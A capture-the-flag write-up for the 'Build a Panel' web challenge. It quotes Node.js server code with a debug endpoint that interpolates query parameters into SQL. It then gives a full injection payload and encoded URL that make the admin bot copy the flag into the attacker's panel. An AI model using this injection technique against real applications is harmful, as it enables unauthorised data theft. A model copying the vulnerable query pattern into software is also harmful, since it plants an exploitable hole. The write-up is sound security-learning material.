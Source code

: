 # Build a Panel
### Made by: Jim

Challenge text:
```
You can never have too many widgets and BAP organization is the future. If you experience any issues, send it here

Site: build-a-panel.dicec.tf
```
We were also given the source code; [build-a-panel](build-a-panel).

The website allows you to create widgets on your panel. You can give the widget a name and a type (`availableWidgets = ['time', 'weather', 'welcome']`). There is also an admin bot on this challenge. Nothing special strikes me while experimenting around, so I have a look at the [API's source code instead](build-a-panel/app/server.js). There is a lot of SQL going on, which in CTFs usually indicate SQL injection. The endpoint `/panel/add` is however injection secure.

```js
app.post('/panel/add', (req, res) => {
    const cookies = req.cookies;
    const body = req.body;

    if(cookies['panelId'] && body['widgetName'] && body['widgetData']){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES (?, ?, ?)`;
        db.run(query, [cookies['panelId'], body['widgetName'], body['widgetData']], (err) => {
            if(err){
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        console.log(cookies);
        console.log(body);
        res.send('something went wrong');
    }
});
```

At the bottom I notice the endpoint `/admin/debug/add_widget` which seems to do the exact same thing as `/panel/add`, except it's vulnerable to SQL injection as user input is passed directly into the query string.

```js
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
At first this endpoint seems impossible to use as we don't know the secret token, however, we could give the URL to the admin bot and make it execute it for us. At the start of the [server.js](build-a-panel/app/server.js) file we see that there's a table `flag` created, and the flag is inserted into it. So for us to get the flag we have to insert a widget into our panel (our panelid), where the widgetname is the flag. This gives us the SQL query (panelid is our own which we see in our application cookies)
```sql
INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('b9759a44-6e9a-4ee3-941c-984129c36188', (SELECT * FROM flag), '{"type":"weather"}');
```
Since we can control the GET parameters for all 3 values, our SQL injection would be in the `panelid` parameter, and would look like this:
```sql
', (SELECT * FROM flag), '{"type":"weather"}');--
```
The final URL is then `https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=b9759a44-6e9a-4ee3-941c-984129c36188', (SELECT * FROM flag), '{"type":"weather"}');--&widgetname=0&widgetdata=0`, or when URL encoded: `https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=b9759a44-6e9a-4ee3-941c-984129c36188',+(SELECT+*+FROM+flag),+'{"type"%3a"weather"}')%3b--&widgetname=0&widgetdata=0`. 

If we give this URL to the admin bot and check our panel, the flag is there.

![Flag widget in our panel](flag.png)